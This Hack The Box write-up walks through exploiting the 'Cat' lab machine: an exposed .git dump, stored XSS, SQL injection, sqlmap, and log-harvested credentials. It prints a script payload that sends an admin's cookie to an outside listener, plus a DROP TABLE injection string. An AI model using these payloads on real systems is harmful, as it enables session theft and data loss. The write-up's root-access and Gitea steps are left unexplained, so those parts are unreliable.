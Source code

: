 ```yaml
---
title: Cat - Hack The Box Writeup
date: 2025-02-11
categories: [CTF, Writeups, HTB]
tags: [htb, linux, rce, lfi, stored-xss, privilege-escalation, gitea]
image:
  path: https://blog.n0va.in/assets/images/htb-cat.jpg

  description: A detailed walkthrough of the Cat HTB machine, showcasing exploitation of stored XSS, SQL injection, and Gitea vulnerabilities.
author: l4tmur
---
```


## Nmap Recon and Initial Enumeration

To begin our reconnaissance, we run an Nmap scan to identify open ports and services on the target machine:

```bash
nmap -sV 10.10.11.53 -T5 -Pn
```

The scan results reveal that Port 22 (SSH) and Port 80 (HTTP) are open.

Next, we attempt to access the website by entering the machine’s IP address in a browser. Instead of a standard page, we notice that the hostname `cat.htb` is referenced. To resolve this domain locally, we add it to our `/etc/hosts` file:

```bash
echo "10.10.11.53 cat.htb" | sudo tee -a /etc/hosts
```

With this update, we can now access `cat.htb` in our browser to further explore potential attack vectors.

## Exploring the Application

Before diving deeper, let’s explore the application to get an overall idea.

The website appears to be a community page for cat lovers, featuring a voting system. On further inspection, we find a voting section:

![Voting Section](https://blog.n0va.in/assets/images/Pasted%20image%2020250203031230.png)

However, voting is currently closed. This suggests that additional functionalities might be accessible after logging in.

### Checking Cookies

Even before logging in, we notice that the application assigns cookies to our session:

```bash
Cookie: session=xyz123
```

### Logging In

After logging in, we gain access to more features, including the ability to participate in contests. Interestingly, there is also a file upload option, which could potentially lead to Remote Code Execution (RCE)—something worth investigating further.

## Subdomain & Directory Enumeration

Meanwhile, we check for subdomains but find nothing significant. Next, we perform directory enumeration using `dirsearch` with a default wordlist:

```bash
dirsearch -u http://cat.htb/
```

During enumeration, we discover a `.git` directory:

```bash
[200] GET /.git/
```

### Extracting .git Repository

To leverage this, we use a tool called `git-dumper`, which helps automate the extraction of `.git` repositories. This tool checks if directory listing is enabled and recursively downloads the `.git` contents for further analysis:

```bash
git-dumper http://cat.htb/.git ./cat_source
```

### Reviewing Extracted Source Code

After extracting the `.git` directory, we now have access to a large portion of the source code. This provides us with a deeper understanding of the application’s structure and potential vulnerabilities.

## Identifying Vulnerabilities

### 1. Stored XSS in Registration (`join.php`)

Upon reviewing `join.php`, we notice an unsanitized user input being directly stored in the database during registration:

```php
// Vulnerable registration code
if ($_SERVER["REQUEST_METHOD"] == "GET" && isset($_GET['registerForm'])) {
    $username = $_GET['username'];  //  Unsanitized input
    $email = $_GET['email'];        //  Unsanitized input

    $stmt_insert = $pdo->prepare("INSERT INTO users (username, email, password) VALUES (:username, :email, :password)");
    $stmt_insert->execute([':username' => $username, ':email' => $email, ':password' => $password]);
}
```

Here, the `username` and `email` fields are not sanitized or validated before being stored in the database. This allows an attacker to inject Stored XSS payloads.

**Example Attack:**

An attacker could register with the following username:

```bash
<script>alert(document.cookie)</script>
```

Since the input is stored in the database without sanitization, whenever this username is displayed, the malicious script executes, potentially stealing cookies from other users.

### 2. SQL Injection in `accept_cat.php`

Analyzing `accept_cat.php`, we find another major vulnerability: SQL Injection due to direct user input in SQL queries.

```php
// VULNERABLE CODE:
$cat_name = $_POST['catName'];
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
$pdo->exec($sql_insert);
```

Here’s why this is dangerous:

1. `$cat_name` is not sanitized before being used in the SQL query.
2. String concatenation is used, making it prone to SQL injection attacks.
3. `exec()` is used instead of prepared statements, leaving the application exposed.

**Example Attack:**

An attacker could send a POST request with:

```bash
catName = '); DROP TABLE accepted_cats; --
```

This would result in the following SQL query execution:

```sql
INSERT INTO accepted_cats (name) VALUES (''); DROP TABLE accepted_cats; --')
```

If executed, this would delete the entire `accepted_cats` table, causing major data loss.

## Exploitation

### Stealing Admin Cookies via Stored XSS

From our earlier findings, we know that the admin (Axel) reviews contest submissions. When he does, the malicious username is displayed, and the payload is executed.

Payload:

```html
<script>document.location='http://10.10.14.17:1111/?c='+document.cookie;</script>
```

Start a web server to capture the cookie:

```bash
python3 -m http.server 1111
```

Once Axel reviews the submission, his cookie is sent to our server:

```bash
GET /?c=admin-session-cookie HTTP/1.1
```

Using the admin cookie, we access the admin panel and exploit the SQL injection in `accept_cat.php` to dump the database.

### Database Dump with SQLmap

Copy the vulnerable request and save it in a file, then run SQLmap:

```bash
sqlmap -r request.txt --dump
```

From the database dump, we retrieve password hashes for multiple users. Cracking the hashes reveals valid credentials for `rosa`:

```bash
rosa:soyunaprincesarosa
```

### Privilege Escalation

While exploring the machine as `rosa`, we check the Apache logs and discover Axel’s SSH credentials:

```bash
cat /var/log/apache2/access.log
```

Using these credentials, we log in as `axel` and retrieve the root flag.

---

This concludes the walkthrough for the Cat HTB machine. We exploited stored XSS, SQL injection, and misconfigured Git repositories to gain full access to the machine. Happy hacking!


